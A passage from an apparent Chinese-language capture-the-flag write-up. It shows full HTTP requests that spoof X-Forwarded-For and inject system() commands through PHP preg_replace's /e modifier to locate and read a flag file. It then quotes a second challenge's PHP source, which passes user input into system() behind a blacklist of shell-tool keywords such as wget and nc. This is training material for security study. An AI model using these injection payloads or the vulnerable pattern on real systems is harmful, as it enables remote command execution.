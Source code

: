 加XFF，构造payload

```
GET /index.php?pat=/123/e&rep=system("find+-iname+flag")&sub=123456 HTTP/1.1
Host: 111.200.241.244:54061
Cache-Control: max-age=0
X-Forwarded-For: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36 Edg/103.0.1264.37
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=g69j1stg83bo1v3hh4h0q25v93
Connection: close
```

![image-20220626131658945](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207071730493.png?x-oss-process=hzy)

```
GET /index.php?pat=/123/e&rep=system("cat+./s3chahahaDir/flag/flag.php")&sub=123456 HTTP/1.1
Host: 111.200.241.244:54061
Cache-Control: max-age=0
X-Forwarded-For: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36 Edg/103.0.1264.37
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=g69j1stg83bo1v3hh4h0q25v93
Connection: close
```

![image-20220626131907894](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207071730427.png?x-oss-process=hzy)

# favorite_number

- 整型溢出

```
<?php
//php5.5.9
$stuff = $_POST["stuff"];
$array = ['admin', 'user'];
if($stuff === $array && $stuff[0] != 'admin') {  // stuff和array强等于且字符串首字母不同
    $num= $_POST["num"];
    if (preg_match("/^\d+$/im",$num)){     // num字符串全部由数字组成，大小写不敏感，跨行检测
        if (!preg_match("/sh|wget|nc|python|php|perl|\?|flag|}|cat|echo|\*|\^|\]|\\\\|'|\"|\|/i",$num)){  
         //黑名单
            echo "my favorite num is:";
            system("echo ".$num);
        }else{
            echo 'Bonjour!';
        }
    }
} else {
    highlight_file(__FILE__);
}
```
